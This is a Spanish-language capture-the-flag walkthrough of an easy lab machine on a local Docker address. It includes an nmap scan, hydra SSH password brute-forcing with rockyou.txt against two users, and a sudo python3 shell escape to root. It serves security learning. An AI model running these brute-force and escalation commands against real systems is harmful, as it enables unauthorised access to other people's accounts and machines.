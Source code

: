 # Máquina pequeñas-mentirosas

--- 

Dificultad -> Fácil

--- 

Primero realizo un nmpa para ver puertos y servicios

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Encuentro los puertos 22 y 80 asi que me conecto desde el navegador

![](assets/2025-10-28-20-08-09-image.png)

Me encuentro con una web con un unico texto diciendo que encuentre la clave para A

Solo se me ocurre hacer un ataque de fuerza bruta por ssh con el usuario a con hydra

```shell
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -I
```

![](assets/2025-10-28-20-10-20-image.png)

Encuentro las credenciales del usuario a, asi que me conecto por ssh

Una vez dentro, busco binarios y archivos con permiso SUID pero no encuentro nada vulnerable para escalar permisos

![](assets/2025-10-28-20-14-10-image.png)

Buscando un poco veo que existe otro usuario llamado spencer

![](assets/2025-10-28-20-14-39-image.png)

Así que realizo otro ataque de fuerza bruta con hydra con el usuario spencer

```shell
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -I
```

![](assets/2025-10-28-20-16-01-image.png)

Nuevamente me encuentras las credenciales de spencer asi que me conecto por ssh y busco binarios que pueda ejecutar como root

![](assets/2025-10-28-20-17-02-image.png)

Veo que puedo ejecutar python3 como root asi que voy a [GTFOBins](https://gtfobins.github.io/) y simplemente ejecuto el siguiente comando y acabamos siendo root

```shell
sudo python3 -c 'import os; os.system("/bin/sh")'
```

![](assets/2025-10-28-20-18-41-image.png)
